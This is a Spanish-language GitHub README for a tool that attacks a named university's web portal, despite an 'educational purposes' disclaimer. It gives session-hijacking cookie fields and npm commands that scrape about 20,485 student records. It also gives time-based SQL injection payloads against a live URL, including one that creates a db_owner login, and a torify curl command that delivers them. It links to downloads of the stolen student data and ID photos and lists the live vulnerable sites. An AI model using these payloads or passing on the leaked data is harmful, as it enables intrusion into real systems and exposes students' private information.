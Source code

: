 
<div align="end">
<img
 style="object-fit: cover;"
 src="./assets/icons8-hack-60.png" >
</div>

# Script scraping vunerability from uped portal

> [!CAUTION]
> Este script fue creado con fines educativos,en ningun momento se pretende hacer daño a la universidad o a su portal web al contrario se pretende ayudar a mejorar la seguridad de la misma

## 🗒️ Descripcion

Script que permite obtener la información de estudiantes y la sesion de un usuario en el portal de la universidad. Ademas de poder inyectar codigo SQL en una cookie en la base de datos de la universidad.

## 🍪 En que consiste la vulnerabilidad

La vunerabilidad consiste en manipular la cookie de una session para obtener la informacion de un usuario sin necesidad de logearse en el portal de la universidad.

la estructura de cookie es la siguiente:

```json
{
  ".ASPXAUTH": "puede ser cualquier sesion",
  "ASP.NET_SessionId": "id de la session del autenticacion",
  "CodigoUsuario": "codigo del usuario",
  "usuario": "nombre del usuario",
}
```

## 📋 Requisitos

- Node.js v20.0.0

## 🚀 Instalación

```bash
git clone https://github.com/epmyas2022/uped-vunerabilidad.git
```

```bash
npm install
```

Configurar las variables de entorno en el archivo `.env`

```env
ASPXAUTH=#de cualquier sesion
SESSION_ID=#id de la session del autenticacion
ARGS=#argumentos para el navegador
```

## 💻 Comandos

Obtener la informacion del expediente de los estudiantes basados en un rango  x1 a x2

```bash
npm run general <x1> <x2> [optional | Boolean] <headless>
```

Obtener la sesion de un usuario

```bash
npm run login <user> <codigo>
```

Obtener la sesion del portal de pagos de un estudiante

```bash
npm run pagos <user> <codigo>
```

## 🐳 Con docker

Esto es util para ejecutar el script en un contenedor docker, podriamos ejecutar x cantidad de contenedores para obtener la informacion de los estudiantes.

Construir la imagen (builder)

```bash
docker build -f .docker/Dockerfile --target builder -t uped-vunerabilidad .
```

Construir el contenedor

```bash
docker run -it -d -e ASPXAUTH=token -e SESSION_ID=id -e FROM=desde -e TO=hasta --privileged --security-opt seccomp=.docker/chrome.json uped-vunerabilidad
```

## 📂 Estructura de archivos

Dentro de la carpeta data se encuentra varios datos con que se comprobo la vulnerabilidad del portal de la universidad. estos datos obtenidos fueron mediante el script aprovechando la vulnerabilidad.
en total existen aproximadamente **20,485** registros de estudiantes.

## 💉 Vunerabilidad de inyeccion de SQL

Se descubrio otra vunerabilidad que permite inyectar codigo SQL en una cookie y mediante esto se logro obtener acceso a la base de datos de la universidad. La url a la que se le inyecto el codigo SQL fue la siguiente:

```url
https://myappcloud.net/uped/portal_catedratico/externa.aspx
```

Ejemplo de inyeccion SQL

Con esto se valida si es vulnerable a inyeccion SQL si es vunerable se demorara 20 segundos en responder.

```sql
' BEGIN WAITFOR DELAY '0:0:20'--
```

Con la siguiente inyeccion se logro encontrar cual es el nombre de la base de datos de la universidad.

```sql
' IF EXIST (SELECT 1 FROM sys.databases WHERE name LIKE '%uonline_uped%') BEGIN WAITFOR DELAY '0:0:20' END--
```

Con la siguiete inyeccion se logro crear un usuario en la base de datos de la universidad para su posterior uso.

```sql
'IF  (SELECT COUNT(*) FROM sys.databases WHERE name LIKE 'uonline_uped') > 0 BEGIN USE uonline_uped CREATE LOGIN mssql_user WITH password = 'your_password' CREATE USER mssql_user FOR LOGIN mssql_user ALTER ROLE db_owner ADD MEMBER mssql_user WAITFOR DELAY '0:0:20' END--
```

Ejemplo de `curl` para inyectar codigo SQL

```bash
torify curl -X GET "https://myappcloud.net/uped/portal_catedratico/externa.aspx" \
  --cookie ".ASPXAUTH=<auth_de_cualquier_sesion>" \
  --cookie "ASP.NET_SessionId=<id_de_cualquier_sesion>" \
  --cookie "CodigoUsuario=1789" \
  --cookie "Usuario=<injection_sql>" 
```

## 🐳 Acceder a la base de datos

Podemos acceder a la base de datos a través de un contenedor de docker usando novnc y dbeaver.

Acceder a la carpeta `database-docker`:

```bash
cd database-docker
```

Ejecutar el contenedor:

```bash
docker-compose up -d
```

Si todo salio bien, podemos acceder a la base de datos a través de un navegador web.
[http://localhost:8080/vnc.html](http://localhost:8080/vnc.html)

## 💻 Descargar datos

- Tabla de *ra_per_personas* (informacion de estudiantes) [aqui](https://u.pcloud.link/publink/show?code=XZvRx55ZgUc7an7IIyfF27CLa93Wo7KCf6Yy)

- Tabla de *ra_per_foto_carne* (foto de carne de estudiantes) [aqui](https://u.pcloud.link/publink/show?code=XZ9sx55ZEXFqi3MoUjzyXUdw1isK1jm1Wu0y)

## 🔗 Sitios vulnerables

- [x] Portal de la universidad [aqui](https://myappcloud.net/uped/login.aspx)
- [x] Portal de pagos [aqui](https://saas.spsoftware.net/uped_pagos/)
- [x] Base de datos uonline_uped [aqui](https://myappcloud.net/uped/portal_catedratico/externa.aspx)
